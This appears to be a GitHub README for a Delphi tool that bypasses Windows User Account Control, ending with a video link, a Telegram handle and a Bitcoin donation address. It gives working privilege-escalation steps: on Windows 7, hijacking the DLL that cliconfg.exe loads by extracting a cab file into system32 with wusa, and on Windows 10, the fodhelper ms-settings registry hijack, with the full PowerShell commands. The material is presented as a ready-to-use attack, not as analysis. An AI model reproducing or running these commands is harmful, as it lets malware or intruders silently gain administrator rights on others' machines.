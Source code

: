 <h1 align="center">Bypass-UAC Rad Studio XE7</h1>

Windows 7
Both Dlls (under 64 bits and 32 bits) will be packed into a .cab archive by a command from cmd with administrator rights
(Example: makecab "C:\dll\Win64\ntwdblib.dll" "C:\ntwdblib64.cab")
ntwdblib32.cab and ntwdblib64.cab are already written in the code as an array of strings, in the execonsole project
to translate the ntwdblib32.cab file into an array of strings, you can use the code from the conststring project
We use the process vulnerability from the white list "%systemroot%\system32\cliconfg.exe"
Programmatically, using the update installer "%systemroot%\system32\wusa.exe" (it is also in the windows white list)
(Example: wusa "%temp%\ntwdblib.cab" /quiet /extract:%systemroot%\system32\)
do unpacking ntwdblib64.cab or ntwdblib32.cab depending on bitness
to the directory "%systemroot%\system32\ntwdblib.dll"
We start the process "%systemroot%\system32\cliconfg.exe" with user rights, but considering that it is in the windows white list
it executes itself with administrator privileges and loads our dll library "%systemroot%\system32\ntwdblib.dll"
in connection with which it inherits administrator rights and is able to execute any PE file bypassing the UAC window.


Windows 10
We use the vulnerability of the process from the white list "fodhelper.exe"
powershell New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value "path to our file" -Force
powershell New-ItemProperty -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Name DelegateExecute -PropertyType String -Force
powershell Start-Process "fodhelper.exe"
powershell Remove-Item "HKCU:\Software\Classes\ms-settings\shell\open\command" -Recurse -Force

-------
### Video
[![video](https://i.postimg.cc/rw9fmbs8/maxresdefault.jpg)](https://youtu.be/VKTAxeYmjFI)

-------

### Support
Telegram: @Official_Mr_Robot

BTC: bc1q09rsrzf3ztdzly4twc3zmsh94sfxhh4wp05eha
